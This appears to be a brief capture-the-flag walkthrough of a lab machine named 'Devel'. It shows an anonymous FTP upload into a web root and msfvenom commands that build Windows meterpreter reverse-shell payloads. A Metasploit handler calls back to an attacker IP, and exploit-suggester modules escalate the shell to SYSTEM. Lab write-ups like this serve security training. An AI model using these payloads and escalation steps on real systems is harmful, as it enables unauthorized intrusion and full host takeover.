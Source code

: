 # DEVEL 

here only ftp and http 

we can connect as anonymous on the ftp and we can see the ftp is hosting the web server files
so lets create a reverse shell and upload it to the ftp server

.php not working 
create a reverseshell .asp or .aspx 
```
msfvenom  -p windows/meterpreter/reverse_tcp  -f aspx -o shell.aspx 
msfvenom  -p windows/meterpreter/reverse_tcp  -f asp -o shell.asp
```

make a listenner on metasploit and access files on the web

```
use exploit/multi/handler
set lhost 10.10.14.28
set payload windows/meterpreter/reverse_tcp
```

there we go
```
meterpreter > getuid
Server username: IIS APPPOOL\Web
```

lets try windows windows exploit suggester
ctrl + z 
```
use post/multi/recon/local_exploit_suggester
```

set the session right and run
i tried the 3 firsts 
- exploit/windows/local/bypassuac_eventvwr
- exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move
- exploit/windows/local/ms10_015_kitrap0d

third time's a charm

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM


